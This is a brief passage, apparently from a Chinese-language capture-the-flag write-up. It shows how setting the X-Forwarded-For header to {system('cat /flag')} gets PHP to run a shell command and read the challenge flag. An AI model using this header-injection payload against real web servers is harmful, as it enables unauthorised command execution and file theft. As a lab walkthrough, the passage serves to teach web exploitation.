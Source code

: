 在PHP中，直接执行 `shell`命令可以使用下面的代码结构：

```php
system('cmd')
```

据此替换XFF的值为

```php
{system('cat /flag')}#一般默认flag在根路径下
```

![1740654312655](img/根路径查找flag.jpg)

即得到了 `flag`
